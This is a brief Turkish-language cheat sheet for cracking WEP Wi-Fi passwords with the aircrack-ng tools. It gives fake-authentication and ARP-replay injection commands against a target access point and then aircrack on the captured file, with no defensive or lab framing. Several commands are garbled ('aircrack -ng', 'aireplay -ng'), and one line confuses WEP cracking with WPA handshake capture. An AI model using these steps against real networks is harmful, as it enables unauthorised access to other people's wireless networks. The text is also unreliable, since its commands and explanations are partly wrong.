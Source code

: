 # WEB Şifre Kırma
```aircrack -ng airodumptest.cap``` (Tarama Sırasında Yazdırdığımız Dosya)

### Fakeauth saldırısı yapıyoruz ağdan birisi düşüp tekrar bağlanırsa handshake yakalamamız kolaylaşır
```aireplay -ng --fakeauth 0 -a XX:XX:XX:XX:XX:XX -h YY:YY:YY:YY:YY:YY wlan0mon```

```aireplay -ng --arpreplay -b XX:XX:XX:XX:XX:xX -h YY:YY:YY:YY:YY:YY wlan0mon``` belirlenen cihaza IV yollamamızı sağlar

**192.168.1.1** modeminizin ara yüzüne giriş yaparsınız

## Eğer Ağda Yeteri Kadar Cihaz Yoksa
* fakeauuth yolla
* arpreplay çalıştır
* aircrack -ng çalıştır
